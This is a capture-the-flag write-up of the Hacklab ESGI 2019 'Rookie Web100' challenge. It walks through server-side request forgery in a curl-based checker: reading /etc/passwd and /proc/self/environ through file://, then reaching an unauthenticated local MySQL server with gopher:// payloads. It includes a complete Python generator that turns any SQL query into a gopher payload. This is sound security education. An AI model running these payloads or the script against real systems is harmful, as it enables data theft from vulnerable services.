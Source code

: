 ```yaml
---
title: "Hacklab ESGI 2019 |  Rookie Web100 Writeup"
author: "CHERIEF Yassine"
date: 2019-04-08T10:59:30+02:00
subtitle: "SSRF using gopher and curl"
tags: ["ctf", "writeup", "security", "web", "gopher", "exploit"]
categories: ["security", "writeups"]
---
```


## Challenge Description

| **Category**  | **Points** | **Solves** |
|-----------|--------|--------|
| web | 100    | 18     |

<br>
![rookie_chall_description](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554751591/rookie_description.png)

This is the URL for the challenge.  

**`URL:http://ctf.hacklab-esgi.org:8082/`**

So, as soon as we visit the given URL, we get a simple web page saying `Website Checker` and the title saying `super curling` (this gonna be fun!!). we notice that there is one input in the page, whatever you give as input gets passed to `curl` as a parameter. At first I thought that it was a just a simple command injection vulnerability (this supposition tuned out to be `False!`).

![super_curling_webpage](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554752661/super_curling.png)

If we provide `www.google.com` as input, we get the content of google displayed to us.So I started playing with the input to see if I can cause some undefined behaviour.  

Let's try to access `/etc/passwd`, we will use the `file` protocol to do so, we can get access to local files with curl using the file protocol.    
**`input: file:///etc/passwd`**  

![etcpasswd_curl](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554753146/etcpasswd_curl.png)

we can notice `mysql` and `www-data` users.  
Let's try accessing `/proc/self/environ`, by inputing `file:///proc/self/environ`.  

![proc_self_environ](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554753425/proc_self_environ.png)

PWD = /var/www/html

let's try accessing **/var/www/html/config.php**, we get nothing :'(, after a while a friend told me to check **/var/www/html/config_test.php**, after doing that, nothing gets included in the page, but if we check the page source (`Ctrl+U`), we get some interesting php code.

![page_source](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554753689/page_source_config_test.png)

We notice an interesting comment, 

```php
// TODO: MySQL connection with "tiix" user and adding a MySQL password...
```

We have a mysql user `tiix` with no username!!.

let's use `gopher` protocol and build a GREAT payload to connect to the database as `tiix` user.

To do so, we need to know how does mysql creates a connection packet and the Query as well.

let's sniff some traffic generated by the `mysql` command on our own machine.


I have created a new mysql user before that, its not really necessary.

```sql
CREATE USER 'tiix'@'localhost';
```

We can now execute the mysql command and see the generated packets in `wireshark`.

```bash
mysql -u tiix -h 127.0.0.1
```

![wireshark_mysql_conn](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554754846/wireshark_mysql_conn.png)

we now need to convert to `Raw bytes` and make a gopher payload link.

- **converting to raw bytes in wireshark**  

![raw_bytes_mysql_packet](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554754847/wireshark_mysql_raw_bytes.png)

- **making a gopher payload link.**

To do so all we need to do is precced each byte with an `&` symbol.

here is a script to do it with python.

```python
def gopher_exploit(payload_str):
    payload = [payload_str[i:i+2] for i in range(0, len(payload_str), 2)]
    return 'gopher://127.0.0.1:3306/_%' + '%'.join(payload)
```

we get this payload as a result.  

```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%74%69%69%78%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%01%00%00%00%03%01%00%00%00%01
```

Here is the result when inputing the payload.  
![result_gopher_paylaod1](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554755781/result_gopher_payload_1.png)

We can see the mysql Database version in the output.
Now we can execute SQL queries.
Here is a script I made to automate the process, it takes a query as argument and returns a gopher payload link. (We no longer need wireshark!!).

```python
#!/usr/bin/python3

# coding : utf-8
import sys


global mysql_username
global hex_user

mysql_username = 'tiix'
hex_user = mysql_username.encode().hex()


def gopher_exploit(payload_str):
    payload = [payload_str[i:i+2] for i in range(0, len(payload_str), 2)]
    return 'gopher://127.0.0.1:3306/_%' + '%'.join(payload)

def main(query):
    global mysql_username
    global hex_user

    length = 'a3'
    if len(mysql_username) - 4 != 0:
        length = (chr(0xa3+(len(mysql_username) - 4))).encode().hex()


    conn_packet = length + '00000185a6ff0100000001210000000000000000000000000000000000000000000000'
    conn_packet += hex_user
    conn_packet += '00006d7973716c5f6e61746976655f70617373776f72640066035f6f73054c696e75780c5f636c69656e745f6e616d65086c'
    conn_packet += '69626d7973716c045f7069640532373235350f5f636c69656e745f76657273696f6e06352e372e3232095f706c6174666f726d'
    conn_packet += '067838365f36340c70726f6772616d5f6e616d65056d7973716c'


    auth = conn_packet.replace('\n', '')

    query = query.strip()
    hex_query = query.encode().hex()
    query_len_hex = '{:x}'.format((int((len(hex_query) / 2) + 1)))

    query_payload = query_len_hex.rjust(2,'0') + "00000003" + hex_query


    print(gopher_exploit(auth + query_payload + '0100000001'))


if __name__ == "__main__":
   query = sys.argv[1]
   main(query)
```

- **let's dump databases**

```bash
python3 exploit.py "show databases"
```

After inputing the resulting gopher payload link we find a database named `securityday`.

- **Dumping database tables.**

```bash
python3 exploit.py "use securityday;show tables;"
```

We get two tables:

- nothinghere
- users

Let's select now everything from `nothinghere`.

```bash
python3 exploit.py "use securityday; SELECT * FROM nothinghere;"
```

After the last payload we get the flag :D.

![flag_rookie](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554756722/flag_rookie.png)


**`FLAG: ESGI{W3lC0me_R00ki3_M0th3r_1s_0ld}`**
























